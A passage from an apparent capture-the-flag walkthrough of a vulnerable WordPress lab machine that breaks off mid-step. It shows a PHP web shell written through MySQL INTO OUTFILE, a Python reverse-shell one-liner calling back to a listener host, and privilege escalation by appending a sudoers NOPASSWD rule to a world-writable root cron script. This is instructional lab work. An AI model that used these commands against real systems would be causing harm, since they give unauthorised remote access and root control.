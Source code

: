 I tried cracking them with john but it took so long so I aborted it. Instead, I leveraged the fact that MySQL was running as root to write a rudimentary shell on the filesystem:

``` 
MySQL [wordpress]> Select "<?php echo shell_exec($_GET['cmd']);?>" into outfile "/var/www/https/blogblog/wp-content/uploads/shell.php";
Query OK, 1 row affected (0.04 sec)
```

I tested the shell:

``` 
https://192.168.217.141:12380/blogblog/wp-content/uploads/shell.php?cmd=whoami
www-data 
```

Then I used one of PentestMonkey's awesome one-liners to upgrade the shell, after setting up a listener:

``` 
https://192.168.217.141:12380/blogblog/wp-content/uploads/shell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.217.132",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

nc -vnlp 8888
listening on [any] 8888 ...
connect to [192.168.217.132] from (UNKNOWN) [192.168.217.141] 39846
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@red:/var/www/https/blogblog/wp-content/uploads$
```

A bit convoluted and relying on the enumeration / access from previous attempts, but I got another low privileged shell. I proceeded to do more enumeration in order to find a different way of elevating privileges. One of the things I did was search for files owned by root and writeable by everyone:

``` 
find / -type f -user root -perm /o=w 2>/dev/null
```

I scrolled through the output until I found something interesting:

``` 
/usr/local/sbin/cron-logrotate.sh
www-data@red:/$ cat /usr/local/sbin/cron-logrotate.sh
cat /usr/local/sbin/cron-logrotate.sh
#Simon, you really need to-do something about this
```

A cronjob run by root that we can write to! I added the following line that adds www-data to sudoers:

``` 
echo "echo 'www-data  ALL=NOPASSWD: ALL' >> /etc/sudoers" >> /usr/local/sbin/cron-logrotate.sh
```

Waited a bit and then:
